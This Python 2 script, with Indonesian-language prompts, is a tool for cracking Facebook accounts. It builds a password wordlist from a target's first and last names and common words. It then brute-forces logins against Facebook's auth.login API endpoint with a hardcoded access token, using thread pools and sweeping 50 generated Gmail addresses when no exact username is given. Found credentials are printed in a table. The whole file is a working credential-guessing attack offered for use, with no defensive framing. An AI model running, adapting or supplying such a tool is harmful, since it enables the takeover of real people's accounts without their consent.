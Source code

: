 # -*- coding UTF-8 -*-
#  Author : MrIL05
#  Tools : Geli2 Efbeh
#  Versi : 0.5

from prettytable import PrettyTable
from multiprocessing.pool import Process, ThreadPool
from useragents import user_agents, string1, string2, deviv, divev
import os, sys, time, requests, json

s = '\n  \033[92;1m         Suksess... \n        Password Found '
multi_dev = []
sandi = []

def Wordlist():

	try:
		print string1
		print "\033[96;1m        B U A T   W O R D L I $ T "
		print '\033[92;1m+'+'-'*38+'+' 
		nama1 = raw_input("\033[96;1m [\033[95;1m!\033[96;1m]\033[97;1m Masukkan Nama Depan Target\033[93;1m : ")
		nama2 = raw_input("\033[96;1m [\033[95;1m!\033[96;1m]\033[97;1m Masukkan Nama Belakang Target\033[93;1m : ")
		if nama1 == '' or nama2 == '':
			sys.exit("\n\033[91;1m Jangan Kosong dong Sayang!\n Kamu Keluar...")
		d = nama1.replace(' ', '').replace('  ', '')
		b = nama2.replace(' ', '').replace('  ', '')
		lis = ['123','12345','321']
		# ////////////////////////////////////////////
		for dev in lis:
			sandi.append(nama1+dev)
		for dev in lis:
			sandi.append(nama2+dev)
		sandi.append('sayang')
		sandi.append('anjing')
	except KeyboardInterrupt:
		print "\n Keluar.... "

	print " \n\033[92;1m   Suksess Membuat Wordlist..."
		
user1 = []

def target():
	global target
	print string2
	user = raw_input("\033[96;1m {\033[97;1m@\033[96;1m}\033[92;1m Masukkan Username Target:\n\033[93;1m  => \033[97;1m ")	
	if '08' not in user and '+62' not in user and '.' not in user and '1000' not in user and 'www.facebook.com' not in user and 'web.facebook.com' not in user or '@' in user[0]:
		print '\033[91;1m+'+'-'*38+'+'
		print "\033[97;1m Masukkin Username Lol, Bukan Nama orangnya..\n Tapi gk pp lah, kamu masih bisa crack \n Walaupun Tidak Bertarget.."
		print '\033[91;1m+'+'-'*38+'+'
		gm = user.replace(' ', '').replace('@', '')
		for dev in range(1, 51):
			user1.append(gm+str(dev)+'@gmail.com')
		print "\n\033[92;1m Cracking Berjalan.......\n"
		h_sandi = [sandi[0], sandi[1]]
		def br_dev(usr):
			for pas in h_sandi:
			  try:
				wak = time.ctime()
				sys.stdout.write("\r \033[95;1m" + pas + '  |  \033[97;1m' + usr )
				dev = requests.get("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email="+usr+"&locale=en_US&password="+pas+"&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6")
				dev_id = dev.content
				jsl = json.loads(dev_id)
				if "session_key" in dev_id or "www.facebook.com" in jsl["error_msg"]:
				
					x = PrettyTable()
					print 
					print s
					x.add_column("\033[92;1mUsername\033[97;1m", ['\033[96;1m'+usr+'\033[97;1m'])
					x.add_column("\033[92;1mPassword\033[97;1m", ['\033[96;1m'+pas+'\033[97;1m'])
					print '\033[97;1m'
					print x
				
					print('\n\033[96;1m  Selamat Anda Sedang Beruntung :)\n Tekan CTRL Z Untuk Berhenti...\n')
				  	
			  except requests.exceptions.ConnectionError:
				  	exit(' Gangguan Koneksi Internet\n Keluarrr....')
			  except KeyError:
			  	print " "


		def crk():
			th_dev = ThreadPool(30)
			th_dev.map(br_dev, user1)
			divev()
			deviv()
		crk() 
		exit('\n\n     Done .... \n')


	print '+'+'-'*38+'+'
	pasw = open('user.txt', 'w')
	pasw.write(user)
	pasw.close() 
	

def br_dev1(paswq):
	user = open('user.txt', 'r').read()
	wak = time.ctime()
	pas = paswq.replace('\n', '')
	print '\033[96;1m ' + wak + " \033[95;1m" + pas 
	usr = user.replace('https://www.facebook.com/', '').replace('https://web.facebook.com/', '')
	dev = requests.get("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email="+usr+"&locale=en_US&password="+pas+"&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6")
	dev_id = dev.content
	jsl = json.loads(dev_id)
	if "session_key" in dev_id or "www.facebook.com" in jsl["error_msg"]:
	  try:
		x = PrettyTable()
		print s
		x.add_column("\033[92;1mUsername\033[97;1m", ['\033[96;1m'+usr+'\033[97;1m'])
		x.add_column("\033[92;1mPassword\033[97;1m", ['\033[96;1m'+pas+'\033[97;1m'])
		print '\033[97;1m'
		print x
		divev()
		deviv()
		raw_input('\n\033[96;1m  Selamat Anda Sedang Beruntung :)\n Tekan CTRL Z Untuk Berhenti...\n')
		
	  except:
	  	pass

	
	

def brute():
	Wordlist()
	target()
	dev = ThreadPool(8)
	dev.map(br_dev1, sandi)
	divev()
	deviv()
	print '\n\033[92;1m    Selesai Broo..... \n  '

